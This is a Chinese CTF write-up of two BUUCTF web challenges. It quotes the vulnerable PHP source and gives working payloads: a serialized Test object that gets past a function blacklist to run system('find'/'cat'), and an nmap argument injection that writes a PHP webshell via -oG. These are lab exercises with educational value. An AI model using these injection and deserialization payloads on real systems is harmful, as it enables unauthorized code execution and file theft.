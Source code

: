 ## phpweb

开题,发现数据包格式为

```
POST /index.php HTTP/1.1
Host: fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://fd4d282d-79bc-446e-8a04-f553eb93bd86.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

func=date&p=Y-m-d+h%3Ai%3As+a
```

`func=date&p=Y-m-d+h%3Ai%3As+a`好像可以直接命令执行

`func=file_get_contents&p=index.php`,尝试直接读`index.php`

```php
   <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```

用反序列化绕过`disable_fun`

查找flag,`func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:19:"find /* | grep flag";}`,得到`/tmp/flagoefiu4r93`

读flag`func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:22:"cat /tmp/flagoefiu4r93";}`,得到`flag{951cf036-a74f-4cc2-a948-0e21cc39d4a7}`

## Nmap

同样是nmap的扫描题,参照[BUUCTF 2018]Online Tool

bp抓包,得到post参数为`host`,尝试直接使用原题的payload

```
host=' <?php echo `cat /flag`;?> -oG a.php '
```

返回hacker,猜测存在敏感词过滤,如`php`,将php字符去除,发现能够成功保存,用phtml进行替换,得到payload

```
host=' <?echo `cat /flag`;?> -oG a.phtml '
```

成功得到flag`flag{cf240943-0f28-492d-9cd3-37cf568a0bc8}`

`index.php`部分源码

```php
require('settings.php');
set_time_limit(0);
if (isset($_POST['host'])):
	if (!defined('WEB_SCANS')) {
        	die('Web scans disabled');
	$host = $_POST['host'];
	if(stripos($host,'php')!==false){
		die("Hacker...");
	$host = escapeshellarg($host);
	$host = escapeshellcmd($host);
	$filename = substr(md5(time() . rand(1, 10)), 0, 5);
	$command = "nmap ". NMAP_ARGS . " -oX " . RESULTS_PATH . $filename . " " . $host;
	$result_scan = shell_exec($command);
	if (is_null($result_scan)) {
		die('Something went wrong');
	} else {
		header('Location: result.php?f=' . $filename);
else:
<!DOCTYPE html>
<html lang="en">
...
```

源码关键部分与[BUUCTF 2018]Online Tool几乎一致,同样是`escapeshell`引起的问题